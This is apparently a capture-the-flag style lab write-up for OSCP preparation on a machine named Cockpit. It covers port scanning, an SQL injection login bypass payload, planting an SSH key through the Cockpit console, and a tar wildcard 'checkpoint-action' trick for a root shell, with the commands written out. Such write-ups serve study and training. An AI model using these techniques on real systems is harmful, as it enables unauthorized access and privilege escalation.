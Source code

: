 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Cockpit
tags: ["SQLi", "wildcard"]
---
```


**Start 08:05 31-01-2025**

---
```
Scope:
192.168.134.10
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv --min-rate=5000 -sT -T5 -p- 192.168.134.10  -Pn

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  http    syn-ack Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.134.10:9090/
| http-methods: 
|_  Supported Methods: GET HEAD
```


### Feroxbuster

Port `80` gives the following output.

![](../../../assets/bee5251c22f7ffd9720469978d4f3cc2.png)

port `9090` however gave an immense output.

![](../../../assets/2e64710e843deebdb7109585c991cb48.png)

:::important
Since I got stuck here I went ahead and ran `gobuster` for good measure to try and see if I missed something.
:::

### Gobuster

![](../../../assets/a8c1acfd9c38679f821dc1c954032e59.png)

Feroxbuster completely missed this! Let's check it out.


### 80/TCP - HTTP

![](../../../assets/8e87a486c941ddf1763c8d16c054d60b.png)

I tried to enter `admin - admin` and got this red colored response:

![](../../../assets/0a0b3d884d7055bfc6d4dbd780dafaa4.png)

Perhaps **SQLi**?

![](../../../assets/297f356caf19e07b1a92d746c613470f.png)

Yup, let's do some SQLi testing.

:::note
It looks like we're dealing with a **MySQL** server. I will be referencing the [following site](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
:::

After some tries I get the following:

![](../../../assets/ebd8607715bcdb9f460281c851a1737a.png)

Not to worry as the site still works.


### SQLi 

I fire up burp to start testing the injections:

![](../../../assets/3cb32b059caa25be929b7ffff5c36e3e.png)

Let's start modifying it.

```sql
'OR '' = '
```

:::note
Found it in [this resource](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485--------------------------------):![](../../../assets/ec8e8560e7e9a1eb84a7ce093b080b0e.png)
:::

![](../../../assets/5553a42fc5938345f89c788b69abc8d9.png)

code `302`, seems good, let's try it out.

![](../../../assets/4d3f2fcd25ddcb670fc08ba69c26aa07.png)

Awesome

![](../../../assets/9a40a2de7a6b4f89b534b497f590e167.png)

```
james 
canttouchhhthiss@455152

cameron
thisscanttbetouchedd@455152
```

Returning back to port `9090` I was able to log in using *james*'s creds.


### 9090/TCP - HTTP

![](../../../assets/dcdc1ae91e49110153fd9ccd6b67a7ec.png)

Login screen for some sort of Ubuntu web access. 

Using *james* creds I got in:

![](../../../assets/0b8f4b594bff4df6d8c016e19223aaaf.png)

In the **Host > Accounts > james** section I found a spot where I could upload **Authorized Public SSH Keys** so I copy pasted my `id_rsa.pub` file into it.

![](../../../assets/7f1b025cb892fff2a2275a3eb9bf8f48.png)


## Foothold

Let's try to log in via SSH.

![](../../../assets/0c7972dab8042472706772012edcc10e.png)


### local.txt

![](../../../assets/443a28514dca2cce40fcab2f30cab1e2.png)


## Enumeration

![](../../../assets/a1019824ea9f37a647e7b80a3ee7cfc6.png)


## Privilege Escalation

Using the wildcard trick we get a `root` shell easily.

```bash
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh 
sudo tar -czvf /tmp/backup.tar.gz *
```

![](../../../assets/f9e9f42cfbe597dfcd47c8b6cb9cd9a7.png)

![](../../../assets/d7549bc1e566d09880824c3a2ba34289.png)


## proof.txt

![](../../../assets/78c1d7deeeb2857d45606500c6ca1998.png)

---

**Finished 09:02 31-01-2025**

[^Links]: [[OSCP Prep]]
